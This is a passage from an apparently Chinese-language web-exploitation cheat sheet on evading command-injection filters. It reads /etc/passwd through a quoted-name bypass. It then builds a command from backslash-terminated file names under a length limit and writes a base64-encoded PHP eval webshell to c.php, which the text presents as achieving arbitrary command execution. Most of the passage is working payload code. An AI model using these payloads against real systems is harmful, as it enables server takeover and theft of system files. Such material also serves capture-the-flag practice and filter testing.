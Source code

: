 ```
cat /etc/pass'w'd
```

### 反斜杠利用

linux 下创建文件的命令可以用 `1>1` 创建文件名为 1 的空文件

`ls>1` 可以直接把 ls 的内容导入一个文件中, 但是会默认追加 \n

**Linux**
```
w>hp\\
w>c.p\\
w>d\>\\
w>\ -\\
w>e64\\
w>bas\\
w>7\|\\
w>XSk\\
w>Fsx\\
w>dFV\\
w>kX0\\
w>bCg\\
w>XZh\\
w>AgZ\\
w>waH\\
w>PD9\\
w>o\ \\
w>ech\\
ls -t>ls
sh ls
```

- w 长度最短的命令
- ls -t 以创建时间来列出当前目录下所有文件
- 文件列表以[ [ 换 行符] ]分割每个文件
- 引入 `\` 转义ls时的换行
- 换行不影响命令执行
- 成功构造任意命令执行,写入Webshell

```bash
ls -t
echo PD9waHAgZXZhbCgkX0dFVFsxXSk7 | base64 -d>c.php
```

